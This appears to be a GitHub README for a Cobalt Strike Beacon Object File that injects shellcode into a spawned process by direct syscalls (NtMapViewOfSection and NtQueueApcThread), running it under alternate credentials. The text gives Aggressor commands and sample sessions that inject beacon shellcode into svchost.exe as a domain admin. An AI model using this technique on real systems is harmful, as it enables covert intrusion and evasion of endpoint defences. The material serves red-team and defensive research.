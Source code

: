 ## Spawn with Syscalls Shellcode Injection (NtMapViewOfSection -> NtQueueApcThread) BOF (64-bit only)

NtCreateSection -> NtMapViewOfSection -> NtQueueApcThread -> NtResumeThead.
Uses `CreateProcessWithLogonW` to create the target process. Spawns as child to current parent process.



Syscalls generated using @jthuraisamy's [SysWhispers2](https://github.com/jthuraisamy/SysWhispers2), @FalconForce's [SysWhispers2BOF](https://github.com/FalconForceTeam/SysWhispers2BOF) and @Outflanknl's [InlineWhispers](https://github.com/outflanknl/InlineWhispers).

Code adapted from @peperunas's [injectopi](https://github.com/peperunas/injectopi/blob/master/CreateSectionAPC/CreateSectionAPC.cpp)

## Compile

```
make
```

## Usage

Aggressor script included contains the following commands:
- `static_syscalls_apc_user_spawn listener_name DOMAIN\User Password Path_to_EXE` - Injects shellcode for beacon into a spawned process. 
- `static_syscalls_apc_user_shspawn path_to_bin DOMAIN\User Password Path_to_EXE` - Injects custom shellcode into a spawned process.

> NOTE: We're using the CreateProcessWithLogonW API call for process spawning, not BeaconSpawnTemporaryProcess. This is what allows us to specify alternate credentials. 

### Custom shellcode
```
beacon> static_syscalls_apc_user_shspawn shell.bin CONTOSO\Admin password123! C:\Windows\System32\notepad.exe
[*] Syscalls Spawn and Shellcode APC Injection BOF (@ajpc500)
[*] Reading shellcode from: shell.bin and spawning as CONTOSO\Admin
[+] host called home, sent: 6354 bytes
[+] received output:
Spawned Process with PID: 10480
[+] received output:
Shellcode injection completed successfully!
```

### Beacon shellcode
```
beacon> static_syscalls_apc_user_spawn http CONTOSO\Admin password123! C:\Windows\System32\svchost.exe
[+] Spawning and injecting into C:\Windows\System32\svchost.exe as CONTOS\Admin
[*] Syscalls Spawn and Shellcode APC Injection BOF (@ajpc500)
[*] Using http listener for beacon shellcode generation.
[+] host called home, sent: 267710 bytes
[+] received output:
Spawned Process with PID: 8648
[+] received output:
Shellcode injection completed successfully!
```

# TODO
`ppid spoofing`

Don't know how to get `STARTUPINFOEX` to play nicely with `CreateProcessWithLogonW`.
